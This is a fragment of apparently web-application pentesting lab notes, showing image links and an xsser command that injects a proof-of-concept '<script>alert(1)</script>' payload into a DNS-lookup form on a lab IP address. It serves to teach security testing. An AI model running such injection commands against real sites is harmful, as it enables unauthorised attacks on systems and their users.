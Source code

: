 ![xsser --auto](1-webapp-httpassets/image-20230504234754209.png)

- Use a custom XSS payload

```bash
xsser --url 'http://192.131.167.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"
```

![](1-webapp-httpassets/image-20230504234951323.png)
